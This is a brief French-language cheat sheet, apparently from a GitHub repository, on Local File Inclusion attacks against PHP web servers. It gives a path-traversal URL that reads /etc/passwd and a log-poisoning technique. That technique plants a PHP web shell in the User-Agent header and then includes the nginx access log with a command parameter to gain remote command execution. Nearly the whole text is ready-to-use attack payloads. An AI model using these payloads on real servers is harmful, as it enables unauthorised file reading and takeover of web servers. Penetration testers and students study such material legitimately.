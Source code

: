 # Local File Inclusion

### Basique

```
https://domain.com?page=<PATH-TO-FILE> # exemple : ../../../etc/passwd
```

### LFI to RCE

#### PHP

S'il est possible de lire les journaux d'évènements du serveur (du à un mauvais filtrage sur la fonction `include`) et qu'il est possible d'utiliser n'importe quel `User-Agent`, alors il est possible d'exécuter des commandes sur le serveur.

```
# Modifier le User-Agent et faire une requête sur n'importe quelle page qui existe (cette valeur sera stockée dans les logs)
User-Agent: <?php system($_GET['c']); ?>
# Réaliser la LFI + exécuter une commande
https://domain.com?page=../../var/log/nginx/access.log&c=<CMD>
```
